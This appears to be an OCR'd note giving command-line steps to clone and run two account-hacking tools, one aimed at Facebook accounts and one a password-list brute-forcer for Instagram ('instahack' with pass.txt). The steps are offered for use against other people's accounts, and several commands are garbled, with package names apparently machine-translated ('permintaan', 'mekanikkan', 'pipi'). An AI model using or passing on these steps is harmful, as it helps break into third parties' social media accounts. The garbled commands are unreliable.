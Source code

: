 # Hekfb ig clone yooho


HECK FB
apt update && apt upgrade
pip2 install --upgrade pipi
pip2 instal permintaan
pip2 instal mekanikkan
pkg instal git
git clone https://github.com/blackcodercrush/hack-facebook-teman
cd hack-facebook-teman
sh requests.sh
python2 hack-fb.py



HECK IG
$ apt update && apt upgrade
$ pkg install python
$ pkg install git
$ pkg install nano
$ git clone https://github.com/avramit/instahack.git
$ ls
$ cd instahack
$ ls
$ pip instal permintaan
$ cd instahack
$ nano pass.txt
$ cat pass.txt
$ ls
$ python hackinsta.py



